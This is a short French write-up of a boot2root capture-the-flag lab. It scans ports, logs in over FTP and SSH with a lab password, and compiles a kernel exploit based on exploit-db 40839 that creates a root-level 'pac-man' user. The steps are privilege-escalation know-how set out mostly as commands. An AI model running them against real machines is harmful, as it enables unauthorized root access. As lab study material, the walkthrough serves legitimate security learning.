 # Writeup2

Nous avons utilisé docker et squashfs-tools pour extraire le file system depuis l'iso.<br>
`./setup.sh`<br>
`docker logs -f boot2root`

### Get open port

Pour récupérer l'ip de la machine il faut lancer le script `./ip_machine [VM_name]`.<br>
Grâce à nmap:  `nmap -p- $(./ip_machine [VM_name])` nous pouvons voir les ports ouverts:

- 21/tcp  open  ftp
- 22/tcp  open  ssh
- 80/tcp  open  http
- 143/tcp open  imap
- 443/tcp open  https
- 993/tcp open  imaps

### Connection FTP

Nous pouvons maintenant ce connecter en `ftp` avec ces identifiants.<br>
`ftp $(./ip_machine [VM_name])` et mettre les identifiants.<br>
Nous pouvons voir 2 fichiers `README` et `fun`.<br>

### Crack fun :D

Nous allons pouvoir récupérer le fichier `fun` : `get fun`.<br>
Lancer la commande `tar xf fun`.<br>
Maintenant nous pouvons lancer la commande `node crackFun ft_fun`.<br>

### Connection to SSH 

user: `laurie`<br>
mdp: `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`

### Obtention de droits sudo

Copier le fichier: `breach.c`.<br>
avec: `scp breach.c laurie@$(../../ip_machine boot2root):`<br><br>
Compiler avec la commande: `gcc -pthread breach.c -o breach -lcrypt`.<br>
lancer l'exécutable avec: `./breach`.<br><br>
Un user `pac-man` à été ajouté avec le mot de passe `password`.<br>
Il est accessible avec:<br>
`su pac-man`<br>
`password`<br><br>
Réalise sur la base de: `https://www.exploit-db.com/exploits/40839`

### WE ARE ROOT

```
# id
uid=0(pac-man) gid=0(root) groups=0(root)
```

![I am root](./ress/root2.gif)
